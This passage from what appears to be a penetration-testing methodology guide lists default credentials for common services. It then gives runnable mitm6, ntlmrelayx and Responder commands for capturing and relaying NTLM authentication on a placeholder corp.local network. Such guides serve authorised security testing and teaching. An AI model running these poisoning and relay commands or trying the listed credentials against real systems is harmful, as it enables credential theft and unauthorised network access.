 ##### Other Common Services
```bash
# Tomcat Manager
admin:admin, tomcat:tomcat, admin:tomcat, tomcat:admin

# Router/Switch interfaces
admin:admin, admin:password, admin:(blank), root:admin

# Database web interfaces
root:(blank), admin:admin, sa:(blank)

# Monitoring tools (Nagios, Zabbix, etc.)
admin:admin, nagios:nagios, zabbix:zabbix
```

### 5. Think Outside the Box
Look for unconventional attack vectors and creative approaches to gain initial access.

#### Alternative Attack Vectors
```bash
# Check for:
# - Unsecured file shares
# - Default SNMP communities
# - Weak SSH keys
# - Unprotected databases
# - IoT devices with default credentials
# - Network equipment with default settings
```

## Detailed Implementation

### Phase 1: Passive Credential Harvesting (Start Immediately)

#### Option A: mitm6 + ntlmrelayx
```bash
# Terminal 1: Start mitm6
mitm6 -d corp.local -v

# Terminal 2: Start ntlmrelayx for LDAP relay
ntlmrelayx.py -t ldaps://dc01.corp.local -wh fakewpad.corp.local -6

# Terminal 3: Start ntlmrelayx for SMB relay (if SMB signing disabled)
ntlmrelayx.py -tf smb_targets.txt -wh fakewpad.corp.local -6 -c whoami
```

#### Option B: Responder + ntlmrelayx
```bash
# Terminal 1: Start Responder
responder -I eth0 -wrf

# Terminal 2: Start ntlmrelayx
ntlmrelayx.py -tf targets.txt -c whoami

# Monitor captured hashes
tail -f /usr/share/responder/logs/*.txt
```
